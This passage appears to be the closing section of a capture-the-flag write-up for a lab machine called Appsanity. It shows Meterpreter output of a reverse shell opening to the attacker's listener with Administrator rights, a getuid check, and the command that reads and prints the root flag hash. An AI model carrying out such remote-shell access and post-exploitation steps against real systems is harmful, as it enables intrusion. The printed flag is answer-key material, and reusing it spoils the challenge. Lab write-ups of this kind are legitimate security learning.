 Administrator shell.
```bash
[*] Sending stage (200774 bytes) to 10.10.11.238
[*] Meterpreter session 1 opened (10.10.14.205:1337 -> 10.10.11.238:51941) at 2024-02-11 16:19:00 -0500

meterpreter > getuid
Server username: APPSANITY\\Administrator
```

Root flag: `4ebe6f1a1c839456eb3df2603f168233`
```bash
meterpreter > cat C:/Users/Administrator/Desktop/root.txt
4ebe6f1a1c839456eb3df2603f168233
```


## PWNED!!!
![Pasted image 20240714174142.png](/images/Pasted image 20240714174142.png){: .normal }